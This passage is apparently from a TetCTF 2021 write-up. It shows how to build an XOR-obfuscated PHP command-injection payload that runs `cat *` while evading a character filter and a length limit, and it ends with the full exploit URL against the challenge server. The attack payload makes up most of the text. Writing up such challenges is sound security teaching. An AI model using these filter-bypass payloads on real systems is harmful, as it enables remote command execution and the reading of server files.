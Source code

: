 
The output for the \`cat \*\` string is:

```
`:: ('|'^'.'^'2')
c:: ('|'^'.'^'1')
a:: ('|'^'.'^'3')
t: ('*'^'^')
 : ('~'^'^')
*:: ('^'^'.'^'|'^'&')
`:: ('|'^'.'^'2')

('|'^'.'^'2').('|'^'.'^'1').('|'^'.'^'3').('*'^'^').('~'^'^').('^'^'.'^'|'^'&').('|'^'.'^'2')
```

Concatenating that output leads into a 93 chars string, which will be refused by the length condition. We can merge adjacent XOR operations with the same number of operators and also use the '\*\' as it is since is accepted by the regex. Knowing that, we end up with this expresion:

```
If you use all XOR operations, encode the & symbol since the server will interpret it as a new parameter.

('|||'^'...'^'213').('*~'^'^^').('^'^'.'^'|'^'%26').('|'^'.'^'2')

('|||'^'...'^'213').('*~'^'^^').'*'.('|'^'.'^'2')

view-source:http://139.180.155.171/?calc=(%27|||%27^%27...%27^%27213%27).(%27*~%27^%27^^%27).%27*%27.(%27|%27^%27.%27^%272%27)

```

<p align="center">
  <img src="/images/writeups/TetCTF2021/1_flag.png" width="500"/>
</p>
	